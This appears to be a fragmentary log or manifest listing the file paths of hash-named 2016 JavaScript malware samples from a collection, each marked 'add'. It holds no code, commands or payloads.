javascript-malware-collection-master\2016\20160511\20160511_1619306c27a5addbe28a121151c5bce6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160511\20160511_1619306c27a5addbe28a121151c5bce6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160511\20160511_1635a98ecd8b7fd315afba2da83db6e7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160511\20160511_1635a98ecd8b7fd315afba2da83db6e7

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160512\20160512_26245fd4e8f4e72c2c64645481dbfd2b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160512\20160512_2686c39d72b0f99a26801203fd7ef524.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160512\20160512_2686c39d72b0f99a26801203fd7ef524.js
add
----------------------------------
javascript-malware-collection-master\2016\20160512\20160512_268b0ef2467432bd1b0c8e2337fc16c4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160512\20160512_268b0ef2467432bd1b0c8e2337fc16c4.js
add
----------------------------------
javascript-malware-collection-master\2016\20160512\20160512_27cd7d57133f18bc06fa701c73672926.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160512\20160512_27cd7d57133f18bc06fa701c73672926.js
add
----------------------------------
javascript-malware-collection-master\2016\20160512\20160512_2a4eae6fe88fa7464649bece423c8461

----------------------------------
javascript-malware-collection-master\2016\20160516\20160516_c62523c9cef37fcebab7c9827d2c2db4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160516\20160516_c62523c9cef37fcebab7c9827d2c2db4.js
add
----------------------------------
javascript-malware-collection-master\2016\20160516\20160516_c68b5659b68b3d377a210b37de663072.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160516\20160516_c68b5659b68b3d377a210b37de663072.js
add
----------------------------------
javascript-malware-collection-master\2016\20160516\20160516_c715b4ee0e09aa942982a9a7f74cde18.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160516\20160516_c715b4ee0e09aa942982a9a7f74cde18.js
add
----------------------------------
javascript-malware-collection-master\2016\20160516\20160516_ca834418611afa44d2627644bbaeed9e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160516\20160516_ca834418611afa44d2627644bbaeed9e.js


----------------------------------
javascript-malware-collection-master\2016\20160517\20160517_8db7e56071435a316c0fb8ff3b7bfa02.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160517\20160517_8db7e56071435a316c0fb8ff3b7bfa02.js
add
----------------------------------
javascript-malware-collection-master\2016\20160517\20160517_8ec0671da03c83955bda3b3a4c83eadd.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160517\20160517_8ec0671da03c83955bda3b3a4c83eadd.js
add
----------------------------------
javascript-malware-collection-master\2016\20160517\20160517_8fb8d36a93df6cfe18c3cef52db47603.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160517\20160517_8fb8d36a93df6cfe18c3cef52db47603.js
add
----------------------------------
javascript-malware-collection-master\2016\20160517\20160517_900d391a7b60d29ea2c76457a7ca7215.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160517\20160517_900d391a7b60d29ea2c76457a7ca7215.js


javascript-malware-collection-master\2016\20160518\20160518_3884bfa37eb6c71eff0e236af662c089.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160518\20160518_3884bfa37eb6c71eff0e236af662c089.js
add
----------------------------------
javascript-malware-collection-master\2016\20160518\20160518_38abde542cbfccedfadefce7990bf8e5.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160518\20160518_38abde542cbfccedfadefce7990bf8e5.js
add
----------------------------------
javascript-malware-collection-master\2016\20160518\20160518_38b4d4024611ebf8710d23d4e1ef870d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160518\20160518_38b4d4024611ebf8710d23d4e1ef870d.js
add
----------------------------------
javascript-malware-collection-master\2016\20160518\20160518_3aa69953b6aaa81c2fbc225532ca7486.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160518\20160518_3aa69953b6aaa81c2fbc225532ca7486.js
add
-------------------------------

----------------------------------
javascript-malware-collection-master\2016\20160519\20160519_4a5badb211a86b39fe24180cc1f73f67.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160519\20160519_4a5badb211a86b39fe24180cc1f73f67.js
add
----------------------------------
javascript-malware-collection-master\2016\20160519\20160519_4a769f2c35d0b4b19b421fc52f405c7c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160519\20160519_4a769f2c35d0b4b19b421fc52f405c7c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160519\20160519_4aa65d2d90cc980408d90f57f1ecd483.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160519\20160519_4aa65d2d90cc980408d90f57f1ecd483.js
add
----------------------------------
javascript-malware-collection-master\2016\20160519\20160519_4aaf3e6e010cacc3138d3f71b13bc755.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160519\20160519_4aaf3e6e010cacc3138d3f71b13bc755.js


----------------------------------
javascript-malware-collection-master\2016\20160520\20160520_46148dc0746f1cee7a37163bbf119fa2.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160520\20160520_46148dc0746f1cee7a37163bbf119fa2.js
add
----------------------------------
javascript-malware-collection-master\2016\20160520\20160520_46c0595a36824e6f1ca49baa663660f8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160520\20160520_46c0595a36824e6f1ca49baa663660f8.js
add
----------------------------------
javascript-malware-collection-master\2016\20160520\20160520_46ca76884653cd66ed8fc8e6ecd3883e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160520\20160520_46ca76884653cd66ed8fc8e6ecd3883e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160520\20160520_477303521038bf4da1d4e42b7b7bfb6d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160520\20160520_477303521038bf4da1d4e42b7b7bfb6d.js


G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160523\20160523_59cdf5e4f23b06698d8a272676e72df8.js
add
----------------------------------
javascript-malware-collection-master\2016\20160523\20160523_59f95e57ae11e2bf292afef4807547e9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160523\20160523_59f95e57ae11e2bf292afef4807547e9.js
add
----------------------------------
javascript-malware-collection-master\2016\20160523\20160523_5e19a5aaee9b23ccafdd10b4dc8a63f6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160523\20160523_5e19a5aaee9b23ccafdd10b4dc8a63f6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160523\20160523_5f6ab803cfea51a6b038e32540629a5c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160523\20160523_5f6ab803cfea51a6b038e32540629a5c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160523\20160523_5fa044f9581986f6d7131c3abb52c477

add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_10e1eaf1317ebd1b050e21aba19fcfbd.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_10e1eaf1317ebd1b050e21aba19fcfbd.js
add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_11390337105a6b485a74a491e98e2f13.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_11390337105a6b485a74a491e98e2f13.js
add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_11fbef42c419d7cf52d9d858161fef3b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_11fbef42c419d7cf52d9d858161fef3b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_120d81f4d3d0ffe64467e0357d5c2e06.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_120d81f4d3d0ffe64467e0357d5c2e06

----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_fb2eeba0cf4f9d6b42902ead9ba4c465.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_fb2eeba0cf4f9d6b42902ead9ba4c465.js
add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_fb47712633eef1b82824b1b080289a91.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_fb47712633eef1b82824b1b080289a91.js
add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_fb9c1063e0d382cf87b9592e8c4d1217.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_fb9c1063e0d382cf87b9592e8c4d1217.js
add
----------------------------------
javascript-malware-collection-master\2016\20160525\20160525_fc128b0d07ec9c127fc4c203fc6f8ffc.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160525\20160525_fc128b0d07ec9c127fc4c203fc6f8ffc.js


add
----------------------------------
javascript-malware-collection-master\2016\20160526\20160526_d94818ea81181cf877419370ea8fa772.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160526\20160526_d94818ea81181cf877419370ea8fa772.js
add
----------------------------------
javascript-malware-collection-master\2016\20160526\20160526_d96531b79ab533dff3728c05beeb043c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160526\20160526_d96531b79ab533dff3728c05beeb043c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160526\20160526_d9731bd40d0648f2d1f3408995ff223c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160526\20160526_d9731bd40d0648f2d1f3408995ff223c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160526\20160526_d9c2cb71727ede04a1ed444c586aec66.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160526\20160526_d9c2cb71727ede04a1ed444c586aec66

----------------------------------
javascript-malware-collection-master\2016\20160527\20160527_dcdf42eaa764e8e1dd8d87e281fc3116.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160527\20160527_dcdf42eaa764e8e1dd8d87e281fc3116.js
add
----------------------------------
javascript-malware-collection-master\2016\20160527\20160527_dd6b68f9b617fba1d1f5d378a11656ec.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160527\20160527_dd6b68f9b617fba1d1f5d378a11656ec.js
add
----------------------------------
javascript-malware-collection-master\2016\20160527\20160527_ddd1363a50255d4eba2d43e29a4e210f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160527\20160527_ddd1363a50255d4eba2d43e29a4e210f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160527\20160527_de979c0aceecc0d19e6cfb9ded63431d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160527\20160527_de979c0aceecc0d19e6cfb9ded63431d.js


G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160621\20160621_d4ad8edb4a25aa95cd2f5dce18e4c40e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160621\20160621_d5f62a87a5321844b6adb2092cae9c8a.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160621\20160621_d5f62a87a5321844b6adb2092cae9c8a.js
add
----------------------------------
javascript-malware-collection-master\2016\20160621\20160621_d97b2ce43af4414002ac2ef95cc06644.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160621\20160621_d97b2ce43af4414002ac2ef95cc06644.js
add
----------------------------------
javascript-malware-collection-master\2016\20160621\20160621_d9e22dc018d3ac6c4341ebb1b4def681.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160621\20160621_d9e22dc018d3ac6c4341ebb1b4def681.js
add
----------------------------------
javascript-malware-collection-master\2016\20160621\20160621_dc72ac96750031e93ac8e47921bf64f5

add
----------------------------------
javascript-malware-collection-master\2016\20160624\20160624_292328e0ac770b27744eb56d588f3e3c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160624\20160624_292328e0ac770b27744eb56d588f3e3c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160624\20160624_296a66a1ec80259bd3011535b4f1cc17.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160624\20160624_296a66a1ec80259bd3011535b4f1cc17.js
add
----------------------------------
javascript-malware-collection-master\2016\20160624\20160624_2a21d2298e0bc44732659977d493d258.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160624\20160624_2a21d2298e0bc44732659977d493d258.js
add
----------------------------------
javascript-malware-collection-master\2016\20160624\20160624_2aba60dd13206863e67f87492df5fd82.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160624\20160624_2aba60dd13206863e67f87492df5fd82

javascript-malware-collection-master\2016\20160627\20160627_c7f2466cd15d8879226382516545be6c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160627\20160627_c7f2466cd15d8879226382516545be6c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160627\20160627_c8125b33647ed025857a10f320d92e7f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160627\20160627_c8125b33647ed025857a10f320d92e7f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160627\20160627_c82922f06b7aab86b223271cc08dc7b2.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160627\20160627_c82922f06b7aab86b223271cc08dc7b2.js
add
----------------------------------
javascript-malware-collection-master\2016\20160627\20160627_c8993ec9f237828b13ef0bfc6f40b1d9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160627\20160627_c8993ec9f237828b13ef0bfc6f40b1d9.js
add
-------------------------------

add
----------------------------------
javascript-malware-collection-master\2016\20160628\20160628_ff958fb042efe4cb237c467bb3580f9b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160628\20160628_ff958fb042efe4cb237c467bb3580f9b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160629\20160629_005d996a6d2a98d3f11b6084bb3f4f33.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160629\20160629_005d996a6d2a98d3f11b6084bb3f4f33.js
add
----------------------------------
javascript-malware-collection-master\2016\20160629\20160629_00dac76c44a416671f79e1c4bb613f10.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160629\20160629_00dac76c44a416671f79e1c4bb613f10.js
add
----------------------------------
javascript-malware-collection-master\2016\20160629\20160629_0107df5e2d6371fd39d3b64783a58862.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160629\20160629_0107df5e2d6371fd39d3b64783a58862

----------------------------------
javascript-malware-collection-master\2016\20160704\20160704_32a8f85fd38b04d0dade512fea2a5bd3.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160704\20160704_32a8f85fd38b04d0dade512fea2a5bd3.js
add
----------------------------------
javascript-malware-collection-master\2016\20160704\20160704_3690a26de8c8726c62763b359dcf75b6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160704\20160704_3690a26de8c8726c62763b359dcf75b6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160704\20160704_3bcdcfbdbda5232f49d7b5d55e417bd0.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160704\20160704_3bcdcfbdbda5232f49d7b5d55e417bd0.js
add
----------------------------------
javascript-malware-collection-master\2016\20160704\20160704_3fb73b332f3db99ac33a294d628cfeb4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160704\20160704_3fb73b332f3db99ac33a294d628cfeb4.js


----------------------------------
javascript-malware-collection-master\2016\20160718\20160718_c2bafd3c43efc697bbcd0d60808da2e7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160718\20160718_c2bafd3c43efc697bbcd0d60808da2e7.js
add
----------------------------------
javascript-malware-collection-master\2016\20160718\20160718_c3b93eeaaea1078eedc970ed4e329f28.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160718\20160718_c3b93eeaaea1078eedc970ed4e329f28.js
add
----------------------------------
javascript-malware-collection-master\2016\20160718\20160718_d67c541aed355f3f5478d2b6941364d6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160718\20160718_d67c541aed355f3f5478d2b6941364d6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160718\20160718_f53fbe48128cc919b5d2f2eefc6b25ec.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160718\20160718_f53fbe48128cc919b5d2f2eefc6b25ec.js


----------------------------------
javascript-malware-collection-master\2016\20160803\20160803_01fcaaa3fc7f311dcf7126fc18c65f14.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160803\20160803_01fcaaa3fc7f311dcf7126fc18c65f14.js
add
----------------------------------
javascript-malware-collection-master\2016\20160803\20160803_01ff85ff906911804e5d74592ad3e8c8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160803\20160803_01ff85ff906911804e5d74592ad3e8c8.js
add
----------------------------------
javascript-malware-collection-master\2016\20160803\20160803_0430a805cab9e9ae8a4e93af1941e08b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160803\20160803_0430a805cab9e9ae8a4e93af1941e08b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160803\20160803_04ad9c6ea111f6077ba2d6c3fdfde5b8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160803\20160803_04ad9c6ea111f6077ba2d6c3fdfde5b8.js


javascript-malware-collection-master\2016\20160804\20160804_d05266c1fb76f6db4bae3e73d2f57854.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160804\20160804_d05266c1fb76f6db4bae3e73d2f57854.js
add
----------------------------------
javascript-malware-collection-master\2016\20160804\20160804_d09f8b3368d9f488981ddbf662c8ae13.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160804\20160804_d09f8b3368d9f488981ddbf662c8ae13.js
add
----------------------------------
javascript-malware-collection-master\2016\20160804\20160804_d0db541c08760222e9f7951fb44177f9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160804\20160804_d0db541c08760222e9f7951fb44177f9.js
add
----------------------------------
javascript-malware-collection-master\2016\20160804\20160804_d10f7def7742457391332457d4380342.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160804\20160804_d10f7def7742457391332457d4380342.js
add
-------------------------------

javascript-malware-collection-master\2016\20160822\20160822_f1f2289133c95056c4726ffaa1f6e12f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160822\20160822_f1f2289133c95056c4726ffaa1f6e12f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160822\20160822_f263cedef7a7af9c0649c9e214e0d893.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160822\20160822_f263cedef7a7af9c0649c9e214e0d893.js
add
----------------------------------
javascript-malware-collection-master\2016\20160822\20160822_f265cfa4f32d7d1e0fde9da9a92f41e6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160822\20160822_f265cfa4f32d7d1e0fde9da9a92f41e6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160822\20160822_f27e76eb2478ec6d994fb588a95cb685.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160822\20160822_f27e76eb2478ec6d994fb588a95cb685.js
add
-------------------------------

----------------------------------
javascript-malware-collection-master\2016\20160823\20160823_a2a5f2dc1bbcb2c29dd4d16e002daeb5.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160823\20160823_a2a5f2dc1bbcb2c29dd4d16e002daeb5.js
add
----------------------------------
javascript-malware-collection-master\2016\20160823\20160823_a344d9dc739dc07ef13df274ac34c639.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160823\20160823_a344d9dc739dc07ef13df274ac34c639.js
add
----------------------------------
javascript-malware-collection-master\2016\20160823\20160823_a374998d996a93e0e580eb2f5069a2d0.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160823\20160823_a374998d996a93e0e580eb2f5069a2d0.js
add
----------------------------------
javascript-malware-collection-master\2016\20160823\20160823_a385d02828dd9578602a74041ffee32d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160823\20160823_a385d02828dd9578602a74041ffee32d.js


----------------------------------
javascript-malware-collection-master\2016\20160824\20160824_5acb5839e7daa2652772191e7b200c69.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160824\20160824_5acb5839e7daa2652772191e7b200c69.js
add
----------------------------------
javascript-malware-collection-master\2016\20160824\20160824_5aea9716bd3aa43a159f71b9a114f56f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160824\20160824_5aea9716bd3aa43a159f71b9a114f56f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160824\20160824_5b1ad8123a89a859c08a9db789a45c90.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160824\20160824_5b1ad8123a89a859c08a9db789a45c90.js
add
----------------------------------
javascript-malware-collection-master\2016\20160824\20160824_5b2b70e0b394fc549eb5194678709fbe.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160824\20160824_5b2b70e0b394fc549eb5194678709fbe.js


add
----------------------------------
javascript-malware-collection-master\2016\20160826\20160826_942bc8ed8a862a45c76e56ed187538b4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160826\20160826_942bc8ed8a862a45c76e56ed187538b4.js
add
----------------------------------
javascript-malware-collection-master\2016\20160826\20160826_9551ca23e74b2ce963654498f16a8bff.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160826\20160826_9551ca23e74b2ce963654498f16a8bff.js
add
----------------------------------
javascript-malware-collection-master\2016\20160826\20160826_9576b9017921d9945f9634e03c7159f9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160826\20160826_9576b9017921d9945f9634e03c7159f9.js
add
----------------------------------
javascript-malware-collection-master\2016\20160826\20160826_95a791b734007000e298a34b72e9ee6b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160826\20160826_95a791b734007000e298a34b72e9ee6b

----------------------------------
javascript-malware-collection-master\2016\20160829\20160829_f6854d17a87f08af14c97739b5e9648d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160829\20160829_f6854d17a87f08af14c97739b5e9648d.js
add
----------------------------------
javascript-malware-collection-master\2016\20160829\20160829_f72668fc8e0b97b616940b4c87eb3d43.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160829\20160829_f72668fc8e0b97b616940b4c87eb3d43.js
add
----------------------------------
javascript-malware-collection-master\2016\20160829\20160829_f9bfcd714e36d5b96278852dca24a77f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160829\20160829_f9bfcd714e36d5b96278852dca24a77f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160829\20160829_f9e237d7fbf3b7427c93bdbb2343f57c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160829\20160829_f9e237d7fbf3b7427c93bdbb2343f57c.js


add
----------------------------------
javascript-malware-collection-master\2016\20160831\20160831_9a680424ef50c146d47d15e1771f626e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160831\20160831_9a680424ef50c146d47d15e1771f626e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160831\20160831_9b5edb5e99802bea02fc28287956f29f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160831\20160831_9b5edb5e99802bea02fc28287956f29f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160831\20160831_9bcb1c15906309dc16feac95cfe43ee3.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160831\20160831_9bcb1c15906309dc16feac95cfe43ee3.js
add
----------------------------------
javascript-malware-collection-master\2016\20160831\20160831_9bd835e1dcaab458a1f6b3ad985904cf.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160831\20160831_9bd835e1dcaab458a1f6b3ad985904cf

----------------------------------
javascript-malware-collection-master\2016\20160901\20160901_bc3daca895485ef1029e87a82b855b12.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160901\20160901_bc3daca895485ef1029e87a82b855b12.js
add
----------------------------------
javascript-malware-collection-master\2016\20160901\20160901_bcdee88db1840be4c9d9b5dec8fe0333.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160901\20160901_bcdee88db1840be4c9d9b5dec8fe0333.js
add
----------------------------------
javascript-malware-collection-master\2016\20160901\20160901_bcec4fe97df7ca32b76cc2eb9a0304be.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160901\20160901_bcec4fe97df7ca32b76cc2eb9a0304be.js
add
----------------------------------
javascript-malware-collection-master\2016\20160901\20160901_bd4835b8579c0bf795fd133117a76601.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160901\20160901_bd4835b8579c0bf795fd133117a76601.js


javascript-malware-collection-master\2016\20160905\20160905_39ed21b6961618fd1274a8423bfa7894.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160905\20160905_39ed21b6961618fd1274a8423bfa7894.js
add
----------------------------------
javascript-malware-collection-master\2016\20160905\20160905_3a03acd114365b370845d75d473a1869.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160905\20160905_3a03acd114365b370845d75d473a1869.js
add
----------------------------------
javascript-malware-collection-master\2016\20160905\20160905_3a2b9422335cd67404f21f20310432de.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160905\20160905_3a2b9422335cd67404f21f20310432de.js
add
----------------------------------
javascript-malware-collection-master\2016\20160905\20160905_3a90cd9e238da0c41769fecaf77a13e6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160905\20160905_3a90cd9e238da0c41769fecaf77a13e6.js
add
-------------------------------

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160906\20160906_52cf5a5f643c66b2aaf7a53858e46e74.js
add
----------------------------------
javascript-malware-collection-master\2016\20160906\20160906_53648766ac9d6fb4553a3a35d5ef31a6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160906\20160906_53648766ac9d6fb4553a3a35d5ef31a6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160906\20160906_53b6e9d8580018614ee48773835a6ceb.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160906\20160906_53b6e9d8580018614ee48773835a6ceb.js
add
----------------------------------
javascript-malware-collection-master\2016\20160906\20160906_5454b4433f6bc210d4f8ec14daa058fa.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160906\20160906_5454b4433f6bc210d4f8ec14daa058fa.js
add
----------------------------------
javascript-malware-collection-master\2016\20160906\20160906_5455dc5cec2df8f2df47bce36b0992af

----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_140f32e036928a49ea17db46bd5575fd.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_140f32e036928a49ea17db46bd5575fd.js
add
----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_14f167923c2a2470e64508f26dd739b7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_14f167923c2a2470e64508f26dd739b7.js
add
----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_157359a0a24123c2424e731af659cc2b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_157359a0a24123c2424e731af659cc2b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_15939b78898dc1eb5be325e23a5e9c80.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_15939b78898dc1eb5be325e23a5e9c80.js


javascript-malware-collection-master\2016\20160907\20160907_f52721edfbededc1099698f0cb9c8a99.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_f52721edfbededc1099698f0cb9c8a99.js
add
----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_f6b3167711873144ad39c080386d0827.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_f6b3167711873144ad39c080386d0827.js
add
----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_f6ce72d1b60a2fe4bfb2f52d1c422759.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_f6ce72d1b60a2fe4bfb2f52d1c422759.js
add
----------------------------------
javascript-malware-collection-master\2016\20160907\20160907_f71d0d067334321d64d3ecf897eeabec.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160907\20160907_f71d0d067334321d64d3ecf897eeabec.js
add
-------------------------------

----------------------------------
javascript-malware-collection-master\2016\20160915\20160915_3e7b051bbda45e65bf88bf42689e8f14.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160915\20160915_3e7b051bbda45e65bf88bf42689e8f14.js
add
----------------------------------
javascript-malware-collection-master\2016\20160915\20160915_3effb0f6207c7e85ccd37a6cd51d720c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160915\20160915_3effb0f6207c7e85ccd37a6cd51d720c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160915\20160915_3f4927acac117aec9d450b559f618f0e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160915\20160915_3f4927acac117aec9d450b559f618f0e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160915\20160915_3fd880313f1ad3d4d8a3dab675f2c2d4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160915\20160915_3fd880313f1ad3d4d8a3dab675f2c2d4.js


----------------------------------
javascript-malware-collection-master\2016\20160919\20160919_07d3a67b263570769cb6322be556d479.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160919\20160919_07d3a67b263570769cb6322be556d479.js
add
----------------------------------
javascript-malware-collection-master\2016\20160919\20160919_08da5c3f02c211aec73ba0c6550a2c72.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160919\20160919_08da5c3f02c211aec73ba0c6550a2c72.js
add
----------------------------------
javascript-malware-collection-master\2016\20160919\20160919_0aa1f74a4d0503c81f69a7ac4ec50e84.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160919\20160919_0aa1f74a4d0503c81f69a7ac4ec50e84.js
add
----------------------------------
